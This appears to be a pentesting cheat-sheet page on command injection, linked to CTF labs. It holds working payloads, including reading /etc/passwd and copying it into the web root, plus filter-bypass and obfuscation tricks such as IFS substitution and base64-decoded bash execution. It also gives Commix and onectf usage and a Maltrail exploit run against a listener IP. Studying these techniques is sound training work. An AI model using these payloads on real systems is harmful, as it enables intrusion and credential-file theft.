

# Command injection

[](https://academy.hackthebox.com/course/preview/command-injections)
[](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
[](https://tryhackme.com/room/oscommandinjection)
[](https://tryhackme.com/room/owasptop10)
[](https://tryhackme.com/room/picklerick)
[](https://tryhackme.com/room/ignite)
[](https://tryhackme.com/room/chillhack)
[](https://app.hackthebox.com/machines/Sau)
[](https://app.hackthebox.com/machines/Celestial)
[](https://app.hackthebox.com/machines/Busqueda)
[](https://www.root-me.org/en/Challenges/Web-Server/PHP-Command-injection)
[](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass)

<div class="row row-cols-lg-2"><div>

A command injection occurs when a developer uses the user input in system commands without proper sanitization/measures.

For instance, a PHP website on Linux might use `grep`, `sed`, or other utilities instead of PHP functions for some operations:

```php!
$search = $_GET['q'];
$res = system("grep \"$search\" content/");
echo "<pre>$res</pre>";
```

With the following payload for `q`: `" -V; cat /etc/passwd #`, the command executed will be as follows, allowing us to steal /etc/passwd

```bash!
grep "" -V; cat /etc/passwd # content/
```
</div><div>

There are two kinds of command injections

* **Regular/in-band**: same channel to attack and gather results
* **Blind/out-band**: different channels to attack and gather results
    * Using redirections/flags, create a URL-accessible output file

```bash!
[...] cat /etc/passwd > /var/www/html/output.txt [...]
```

<ul>

* Using commands such as `sleep` to perform a time-based attack

</ul>

```bash!
[...] true && sleep 5 [...]
```
</div></div>

<hr class="sep-both">

## Basic Overview

<div class="row row-cols-lg-2"><div>

Assuming we have a list of vulnerable elements such as forms that may be vulnerable, we can try common payloads:

* `;` — `%3B` — run two commands
* `&&` — `%26%26` — executed if the previous ones succeed
* `||` — `%7C%7C` — executed if the previous ones failed
* `&` — `%26` — run two commands <small>(background previous)</small>
* `|` — `%7C` — run two commands  <small>(pipe previous one)</small>
* <code>&#96;&#96;</code> — `%60%60` — execute a command in another command
* `$()` — `%24%28%29` — execute a command in another command
* `\n` or `\r\n` — `%0A` or `%0d%0a` — run two commands
* `!x` — bash-specific — replaced with a command in the history
* `{ls,-la}` — bash-specific — replaced with `ls -la`

Always try to inject bit by bit using a boolean-based approach.
</div><div>

**Tools** 📚

* [Commix](https://github.com/commixproject/commix) <small>(4.6k ⭐)</small> can detect and automatically exploit applications. It was coded in a similar way that SQLMap for SQL injections.

```ps
$ pipx install git+https://github.com/commixproject/commix.git
$ commix -u 'URL' -d 'xxx=*' # POST request, xxx vulnerable
```

* For manual testing, you can use [onectf request](https://github.com/QuentinRa/onectf/blob/main/docs/request.md) <small>(0.001k ⭐)</small> that automatically [URL encode](/tools-and-frameworks/knowledge/encoding/index.md#url-encoding---) the payload.

```ps
$ pipx install git+https://github.com/QuentinRa/onectf.git
$ onectf request -u 'URL' -v -X POST -p 'xxx' -i 'x;id'
$ onectf request -u 'URL' -v -X POST -p 'xxx' -i 'x;ls<tab>/'
$ onectf request -u 'URL' -v -X POST -p 'xxx' -i 'x;ls /' --tamper aliases,space2tab
```

📚 The wordlists [special-chars.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/special-chars.txt) can be handy.
</div></div>

<hr class="sep-both">

## Bypass filters

[](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)

<div class="row row-cols-lg-2"><div>

#### Character Filtering

[](https://tryhackme.com/room/chillhack)

Bypass **space** character filtering.

* Try using tabs (`%09`)
* Try using variables (`${IFS}`)
* Try using brace expansion (`{ls,-la}`) -- bash
* ...

Bypass **braces/star** character filtering.

* You can replace `ls${IFS}/` with `ls$IFS""/`
* You can replace `ls${IFS}/` with `ls$IFS\/`
* You can replace `cat${IFS}*` with `cat$IFS$(ls)`

Bypass **slash** character filtering.

* Try using variables (`${PATH:0:1}`) -- may not be set
* Try using variables (`${HOME:0:1}`) -- may not be set
* Try using variables (`${PWD:0:1}`)
* ...

➡️ See also: `printenv`, `env`, `set`, `export` to list environment variables.

#### Bypass using obfuscation

Remember that such payloads may contain filtered characters. See also tools such as [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator).

```ps
$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$ $(a="WhOaMi";printf %s "${a,,}")
$ # using base64
$ base64 <<< whoami
d2hvYW1pCg==
$ bash<<<$(base64 -d<<<d2hvYW1pCg==) # whoami
$ # using UTF-16 and base64
$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```
</div><div>

#### Command Filtering

[](https://tryhackme.com/room/chillhack)
[](https://www.root-me.org/en/Challenges/App-Script/Powershell-Basic-jail)

Add a pair of quotes/double quotes anywhere within the command

```ps
# Available on Linux, Windows (PowerShell)
$ w'ho'ami ; w""hoam''i
```

* Put `\\` or `$@` anywhere within the command

```ps
# Available on Linux
$ w\hoami ; who$@ami
```

* Put `^` anywhere within the command

```ps
# Available on Windows (CMD)
CMD> who^am^i
```

* Reverse commands

```ps
$ $(rev<<<'imaohw')
PS> iex "$('imaohw'[-1..-20] -join '')"
```

* Filters may have been applied only once

```ps
PS> cat # It doesn't work.
PS> ccatat # It works!
```

* Use variables to split the command

```ps
PS> $a="l"; $b="s" ; & $a$b
```
</div></div>

<hr class="sep-both">

## Additional Notes

Refer to [injection](/cybersecurity/red-team/s4.privesc/linux/utils/injection.md#special-scenarios-) if you need to inject something in the arguments of a custom script.

<div class="row row-cols-lg-2"><div>

#### Mailtrail v0.53

[](https://app.hackthebox.com/machines/Sau)

[POC (python script)](https://github.com/spookier/Maltrail-v0.53-Exploit) <small>(0.04k ⭐)</small>.

```shell!
$ python3 exploit.py listener_ip listener_port URL
```
</div><div>

#### PowerShell Command Injection

[](https://www.root-me.org/en/Challenges/App-Script/Powershell-Command-Injection)
[](https://www.root-me.org/en/Challenges/App-Script/Powershell-Basic-jail)

Reminder of useful payloads: `$(whoami)`, `; whoami`, `$(Get-ChildItem Env:)`, `$(command|Out-string)`, `| powershell command`...
</div></div>

<hr class="sep-both">

## Mitigation 🛡️

<div class="row row-cols-lg-2"><div>

* 🪲 Avoid using uncontrolled input in system commands. Always validate and filter user input.

* 🔫 Use the web engine functions instead of system functions

* 📚 Use additional tools such as a WAF, etc.
</div><div>

As always, we can configure the server to block some functions or disable access to folders outside the application directories.

* [PHP Security And Bypasses](/programming-languages/web/php/_general/index.md#php-security-and-bypasses-)
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Windows Slash (`$env:HOMEPATH[0]`)
* Direct access to a program in a jail?
</div><div>
</div></div>